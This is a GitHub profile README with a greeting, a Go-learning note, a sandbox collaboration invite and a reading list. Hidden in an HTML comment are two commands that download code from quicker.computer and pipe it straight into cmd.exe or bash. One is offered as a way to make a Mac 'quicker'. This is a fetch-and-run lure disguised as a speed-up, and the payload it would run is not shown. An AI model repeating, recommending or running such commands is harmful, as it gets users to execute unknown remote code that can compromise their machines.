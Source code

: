 ## Hi
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning
Working on sharpening my Go programing skills. Be sure to check in for more repos. \
If you are interested in working with me on the [python sandbox](https://twosixtech.com/hijacking-the-ast-to-safely-handle-untrusted-python/) you can send me and email and I will add you to the private repo.


### Current Reading list
[Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)
[Quantum Computing and Quantum Information](https://www.amazon.com/Quantum-Computation-Information-10th-Anniversary/dp/1107002176/ref=sr_1_1?crid=3K2FR2P6HUCV2&keywords=nielsen+quantum+computing&qid=1676434522&s=books&sprefix=nielson+quantum+computing%2Cstripbooks%2C65&sr=1-1&ufe=app_do%3Aamzn1.fos.006c50ae-5d4c-4777-9bc0-4513d670b6bc)
[Hacking APIs](https://nostarch.com/hacking-apis)


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
